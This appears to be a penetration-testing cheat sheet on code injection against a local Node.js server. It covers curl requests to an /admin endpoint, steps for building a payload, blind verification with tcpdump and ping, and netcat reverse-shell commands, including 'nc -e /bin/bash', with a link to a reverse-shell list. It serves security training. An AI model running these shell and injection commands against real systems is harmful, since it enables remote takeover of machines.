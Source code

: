 | **Command**                                                                     | **Description**                  |
| ------------------------------------------------------------------------------- | -------------------------------- |
| `node server.js`                                                                | run server locally               |
| `curl http://127.0.0.1:21440/admin -X POST -d '{}'`                             | curl POST request                |
| `curl http://127.0.0.1:21440/admin -X POST -d '{"key":"this is just a test!"}'` | curl POST request with json data |

# Exploitation

| **Code Injection Steps** |
| --- |
| 1\. Prepare the Payload |
| 2\. Comment Out the Rest |
| 3\. Even Quotes/Parentheses |
| 4\. Escaping/Encoding Special Characters |
| 5\. Examine Payload |

| **Command** | **Description** |
| --- | --- |
| `jq -aR .` | Escape json input |
| `sudo tcpdump -i lo icmp` | Blind verification: Listen for pings |
| `ping -c 3 127.0.0.1` | Blind verification: ping injection test |
| `nc -lvnp 1234` | Remote Shell: start netcat listener |
| `nc -e /bin/bash 127.0.0.1 1234` | Remote Shell: send basic shell |

# Helpful Websites

| **Website** |
| --- |
| [Prettier](https://prettier.io/playground/) |
| [Url Encode/Decode](https://www.urlencoder.org/) |
| [Reverse Shells - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) |